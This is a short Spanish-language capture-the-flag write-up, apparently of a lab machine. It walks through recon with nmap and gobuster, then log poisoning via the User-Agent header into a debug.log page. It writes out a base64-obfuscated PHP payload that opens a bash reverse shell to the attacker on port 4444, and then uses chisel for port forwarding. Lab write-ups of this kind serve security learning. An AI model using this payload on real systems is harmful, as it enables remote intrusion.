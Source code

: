 1- Ping y NMAP

<img width="626" height="209" alt="image" src="https://github.com/user-attachments/assets/e220a31a-dc70-4c6a-a240-ca4390679a2d" />

2- Gobuster para ver directorios:

<img width="753" height="471" alt="image" src="https://github.com/user-attachments/assets/f1b100d0-f240-4601-ae4f-7e9d57574373" />

3- Capturo una peticion con burpsuite:

<img width="592" height="227" alt="image" src="https://github.com/user-attachments/assets/983f78a4-4215-4c06-b4f0-c4d1b919f5a5" />

Y veo que envia los errores en un fichero debug.log, ahora en el campo de user agent copiaremos esto:

<?php echo `printf YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0NDQgMD4mMQo= |base64 -d | bash`;?> ES LO MISMO QUE UNA SHELL REVERSA, ESCUCHA POR EL PUERTO 4444.netcat

<img width="763" height="388" alt="image" src="https://github.com/user-attachments/assets/b124509c-28b2-41c2-a58e-efd1e68bdf34" />

vemos el debug.log

<img width="211" height="88" alt="image" src="https://github.com/user-attachments/assets/d42b2b4d-72cd-4424-a385-d884a23cc588" />

<img width="634" height="18" alt="image" src="https://github.com/user-attachments/assets/ce27e9d7-601f-4232-a303-10799c3be8ba" />

lo enviamos y vamos a la pagina 

<img width="268" height="30" alt="image" src="https://github.com/user-attachments/assets/422b065c-0c74-4a7a-9371-eb9ae4f9cd60" />

Y automaticamente nos llega la shell

<img width="644" height="207" alt="image" src="https://github.com/user-attachments/assets/84216f91-5584-41c1-9ea5-694c7be2135f" />

Vemos que tiene algo en escucha en el puerto 5000, lo busco y es flask que corre con python creo.

Voy a lanzar un server para copiarme chisel a la maquina victima:

<img width="406" height="77" alt="image" src="https://github.com/user-attachments/assets/657ec9a9-40f7-42b7-a5db-f49fd21913a3" />

<img width="451" height="75" alt="image" src="https://github.com/user-attachments/assets/b0ad5902-65dd-45a6-b6d6-d18616cda4c6" />

Una vez copiado, nos ponemos en escucha con chisel en nuestra maquina:

<img width="725" height="102" alt="image" src="https://github.com/user-attachments/assets/5c1ef376-5f0f-4d1d-aa7e-ebbc78518b8f" />

<img width="309" height="21" alt="image" src="https://github.com/user-attachments/assets/88947e6f-2241-4a2d-b33d-c9f8c4d84e83" />

Damos permisos en la maquina victima y ejecutamos chisel:

<img width="591" height="66" alt="image" src="https://github.com/user-attachments/assets/342bfae9-6285-425c-bcc5-c30dd7ae3ecf" />

Ya tenemos el port fortwarding, vamos a ver que corre en ese puerto 5000 via http

<img width="1021" height="272" alt="image" src="https://github.com/user-attachments/assets/6f414f6d-ea04-419b-a97e-0316968aee97" />

